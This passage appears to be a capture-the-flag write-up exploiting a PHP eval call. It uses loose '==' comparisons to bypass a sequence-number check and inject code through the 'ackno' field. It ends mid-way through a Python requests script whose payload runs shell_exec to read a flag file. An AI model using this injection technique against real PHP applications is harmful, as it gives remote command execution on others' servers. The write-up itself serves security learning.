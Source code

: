 We can spot our injection point at
```php
$checksum_str = "\$checksum = hash(\"$packet->algo\", strval($packet->ihl + $packet->len + $packet->ttl + $packet->seqno + $packet->ackno));";
eval($checksum_str);
```
If we could manage to craft a payload which makes the eval execute aribitrary code we would be good to go.
The problem is that the variables used as the second argument of *hash* are all treated as integers.
We also can notice that all the *if* controls are made using *weak typing using ==*.
Let's try and tweak *$packet->ackno*. The only relevant check on *ackno* is at:
```php
if($packet->ackno != $_COOKIE["seqno"] + 1) {
    return "<p>Error: out of order packet</p>";
}
```
After some tries we can realize that we can exploit:
```php
$ackno = "1abc";
if ($ackno == "0abc" + 1) {
    echo "PWNED";
}
```
which yields *PWNED* with some side notice warnings that doesn't stop the execution. We can craft our *eval* code and put it into *$packet->ackno* as
```php
$packet->ackno = "1)); /*EXPLOIT_CODE*/ echo((1"
```
and provide the cookie as
```php
$_COOKIE["seqno"] = "0abc"
```
When evaluated, the check will pass:
```php
// this
if ("1)); /*EXPLOIT_CODE*/ echo((1" == "0abc" + 1)
// is equivalent to
if ("1" == "0" + 1)
// as php will try to wipe off all non numerical chars
```

At this point we can script the attack. Notice that packet len, ihl and checksum are calculated offline by adding some echo's in send.php in order to get the right values.
```python
import json

import requests

headers = {
    'Connection': 'keep-alive',
    'Accept': '*/*',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.92 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept-Language': 'it-IT,it;q=0.9,fr-IT;q=0.8,fr;q=0.7,en-IT;q=0.6,en;q=0.5,en-US;q=0.4',
}

packet = {
    'version' : 6.5,
    'len' : 258,
    'ttl' : 1,
    'seqno' : 1,
    'ackno' : '1));$packet->data = shell_exec("cat ./sent/flag.packet.php");echo((1',
    'algo' : 'sha256',
    'ihl' : 149,
    'checksum' : '612111a352a571cbed3927ec6f74948849bcc9fe8489bf4f0d6235afdc0a4ad7',
```